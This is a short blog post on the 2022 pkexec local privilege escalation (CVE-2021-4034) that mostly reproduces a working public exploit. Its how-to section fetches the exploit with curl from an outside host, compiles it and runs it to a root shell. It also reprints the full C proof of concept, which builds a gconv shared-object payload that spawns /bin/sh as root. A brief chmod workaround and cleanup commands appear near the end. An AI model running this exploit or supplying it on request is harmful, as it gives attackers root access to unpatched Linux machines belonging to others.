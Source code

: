 ```yaml
---
title: 'Local Privilege Escalation in polkits pkexec'
description: ''
date: 2022-01-26
tags: [ 'cve', 'security', 'vuln' ]
---
```

The big news in Linux today is the [Local Privilege Escalation in polkit's pkexec (CVE-2021-4034)](https://seclists.org/oss-sec/2022/q1/90), with [Arstechnica](https://arstechnica.com/information-technology/2022/01/a-bug-lurking-for-12-years-gives-attackers-root-on-every-major-linux-distro/) leading with, "_A bug lurking for 12 years gives attackers root on every major Linux distro - It's likely only a matter of time before PwnKit is exploited in the wild_" Needless to say, I immediately had to try it out on my own, so I got on one of my [Debian GNU/Linux](https://debian.org) servers to test it. Spoiler: it worked, here's how you can try it too.

## Howto

```
# id
uid=1000(fak3r) gid=1000(fak3r) groups=1000(fak3r),27(sudo)
$ curl -O https://haxx.in/files/blasty-vs-pkexec.c
$ gcc blasty-vs-pkexec.c -o pkexec-poc
$ ./pkexec-poc
[~] compile helper..
[~] maybe get shell now?
# id
uid=0(root) gid=0(root) groups=0(root),27(sudo),1000(fak3r)
# 
```

## Workaround fix (temporary)

While this is bad, here's a quick workaround, remove the sticky bit from the binary - it's certainly untested, and will be null once a patch is released:

```
chmod 755 /usr/bin/pkexec
```

## Cleanup

To remove the downloaded, and generated, code:

```
rm -rf pkexec-poc blasty-vs-pkexec.c GCONV_PATH\=. lol payload.*
```

## Code

In case the C code is pulled, here's it is, again, I grabbed it from [haxx.in](https://haxx.in/files/blasty-vs-pkexec.c).

```
/*
 * blasty-vs-pkexec.c -- by blasty <peter@haxx.in> 
 * ------------------------------------------------
 * PoC for CVE-2021-4034, shout out to Qualys
 *
 * ctf quality exploit
 *
 * bla bla irresponsible disclosure
 *
 * -- blasty // 2022-01-25
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <fcntl.h>

void fatal(char *f) {
    perror(f);
    exit(-1);
}

void compile_so() {
    FILE *f = fopen("payload.c", "wb");
    if (f == NULL) {
        fatal("fopen");
    }

    char so_code[]=
        "#include <stdio.h>\n"
        "#include <stdlib.h>\n"
        "#include <unistd.h>\n"
        "void gconv() {\n"
        "  return;\n"
        "}\n"
        "void gconv_init() {\n"
        "  setuid(0); seteuid(0); setgid(0); setegid(0);\n"
        "  static char *a_argv[] = { \"sh\", NULL };\n"
        "  static char *a_envp[] = { \"PATH=/bin:/usr/bin:/sbin\", NULL };\n"
        "  execve(\"/bin/sh\", a_argv, a_envp);\n"
        "  exit(0);\n"
        "}\n";

    fwrite(so_code, strlen(so_code), 1, f);
    fclose(f);

    system("gcc -o payload.so -shared -fPIC payload.c");
}

int main(int argc, char *argv[]) {
    struct stat st;
    char *a_argv[]={ NULL };
    char *a_envp[]={
        "lol",
        "PATH=GCONV_PATH=.",
        "LC_MESSAGES=en_US.UTF-8",
        "XAUTHORITY=../LOL",
        NULL
    };

    printf("[~] compile helper..\n");
    compile_so();

    if (stat("GCONV_PATH=.", &st) < 0) {
        if(mkdir("GCONV_PATH=.", 0777) < 0) {
            fatal("mkdir");
        }
        int fd = open("GCONV_PATH=./lol", O_CREAT|O_RDWR, 0777); 
        if (fd < 0) {
            fatal("open");
        }
        close(fd);
    }

    if (stat("lol", &st) < 0) {
        if(mkdir("lol", 0777) < 0) {
            fatal("mkdir");
        }
        FILE *fp = fopen("lol/gconv-modules", "wb");
        if(fp == NULL) {
            fatal("fopen");
        }
        fprintf(fp, "module  UTF-8//    INTERNAL    ../payload    2\n");
        fclose(fp);
    }

    printf("[~] maybe get shell now?\n");

    execve("/usr/bin/pkexec", a_argv, a_envp);
}
```
